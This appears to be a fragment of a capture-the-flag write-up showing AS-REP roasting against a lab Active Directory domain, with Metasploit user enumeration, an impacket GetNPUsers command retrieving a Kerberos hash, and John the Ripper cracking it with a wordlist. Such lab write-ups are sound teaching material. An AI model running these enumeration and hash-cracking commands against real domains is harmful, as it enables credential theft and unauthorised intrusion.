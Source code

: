 ```bash
msf6 auxiliary(scanner/kerberos/kerberos_login) > run
[*] Using domain: SERVICES.LOCAL - TargetIP:88      ...
[+] TargetIP - User: "j.doe" is present
[+] TaregTIP - User: "j.rock" does not require preauthentication. Hash: $krb5asrep$23$j.rock@SERVICES.LOCAL:d45c62ec**********8d975f003bf7a7$4a10438a2e24e90c576c71ec0d31d657cca97232057143bfd7f6503ff923e0cb387da32f75fb72cfc975e2226cbf090defcd39350a4c59d616ad52fcfa138676c0e15ce9c957de762b52bdb92ef2d21b311dd7e5c5d89c5b853791db9ed2198714f3577b0bc2bc72909b8b7eb6e4194bfd928d94492c5b8c22867deaa36663ef6cfbac4942e95cfd0e98ec8a8bd55aaecb853f8eadeb0f0174e91136d49b9a57abc3915f8eeb636aad128dc0b83bd559cc04f1bf0a270f834035bd7a1eeac3eabdc5a332ba55d452c9c029a35fb7466fb1ef4e733d6f1d8a8821fd24cfc778d4e5f1ae43b4b9a375f2525ea5773cbe
[+] TargetIP - User: "w.masters" is present
[+] TargetIP - User: "j.larusso" is present
[*] Auxiliary module execution completed
```

<br>

<h3>John the Ripper</h3>

```bash
:~/Services# john hash --wordlist=/usr/share/wordlists/rockyou.txt
...
*************    ($krb5asrep$23$j.rock@SERVICES.LOCAL)
...
```

<br>

<h3>GetNPUsers</h3>

```bash
:~/Services# python3.9 /opt/impacket/build/scripts-3.9/GetNPUsers.py services.local/j.rock -dc-ip TargetIP -no-pass
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for j.rock
$krb5asrep$23$j.rock@SERVICES.LOCAL:c8050bc1fe843df3d686f**********6$34577ee52d8819425876752a9abf85549722283953dafb74007c4e8e8cd574c9b5ad11405068e8dff9e9a5e318349d56b1413a0b27ed5a094a05a835a5744c45f63009c19c198f8f1953b57606e2fd2bc3999aa2f17a0f8afce46a0eb2a3e69b8f9d0a764af2862c3be3ab6962239146fd3540f790f3141bc791ff8a92ba0f9a89dfa9670c6ab0bd69c5374763fc2f04da9a468faa966c39339e08726535a3332a70ac84602d94abc72af1930eaeb5538f685984fc9eba9c1be94b6edcce94bbc0030d5e7b3b37d8ad3c1abfd06eecc6d507054c9faaf3757ca2923803f2f9414f9b173f183d1f7cdb951050c8a6ed01
```

<br>

<h3>John the Ripper</h3>

```bash
:~/Services# john hash1 --wordlist=/usr/share/wordlists/rockyou.txt
...
*************    ($krb5asrep$23$j.rock@SERVICES.LOCAL)
...
```

<br>
